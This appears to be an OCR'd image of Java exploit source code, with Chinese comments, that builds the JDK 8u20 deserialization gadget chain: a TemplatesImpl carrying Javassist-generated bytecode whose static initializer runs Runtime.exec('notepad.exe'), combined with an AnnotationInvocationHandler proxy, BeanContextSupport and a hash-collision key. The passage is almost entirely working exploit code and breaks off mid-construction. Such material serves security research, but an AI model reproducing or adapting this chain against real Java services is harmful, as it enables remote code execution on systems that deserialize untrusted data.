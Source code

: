 ```java
public class jdk8u20EXP3 {

    public static TemplatesImpl generateEvilTemplates() throws Exception {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Cat");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"notepad.exe\");";
        // 创建 static 代码块，并插入代码
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        // 转换为bytes
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCodes);
        // 进入 defineTransletClasses() 方法需要的条件
        setFieldValue(templates, "_name", "name" + System.nanoTime());
        setFieldValue(templates, "_class", null);
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());


        return templates;
    }

    public static void main(String[] args) throws Exception {
        // 获取恶意的TemplatesImpl
        TemplatesImpl templates = generateEvilTemplates();
        // 新建2个map，第一个map用于哈希碰撞造成rce，第二个map作为BeanContextSupport的children
        HashMap map = new HashMap();
        HashMap map2 = new HashMap();
        // 先放入假的数据，防止在构造时触发rce
        map.put("f5a5a608", "zero");

        // 构造AnnotationInvocationHandler
        Constructor handlerConstructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        handlerConstructor.setAccessible(true);
        InvocationHandler tempHandler = (InvocationHandler) handlerConstructor.newInstance(Templates.class, map);

        // 为tempHandler创造一层代理
        Templates proxy = (Templates) Proxy.newProxyInstance(jdk7u21.class.getClassLoader(), new Class[]{Templates.class}, tempHandler);
        // 实例化HashSet
        HashSet set = new LinkedHashSet();


        BeanContextSupport bcs = new BeanContextSupport();
        bcs.beanContextChildPeer            = bcs;
        setFieldValue(bcs, "serializable", 1);
        setFieldValue(bcs, "children", map2);

        // map2将tempHandler放入，进入readChildren的try-catch-readObject中
        map2.put(tempHandler, null);
        // 先存放bcs，反序列化时会先反序列化bcs,从而留下恶意AnnotationInvocationHandler的Handle
        set.add(bcs);
        set.add(templates);
        // 后续proxy直接引用了前面的恶意Handle
        set.add(proxy);

        // 将真正的templates放入map中用于哈希碰撞
```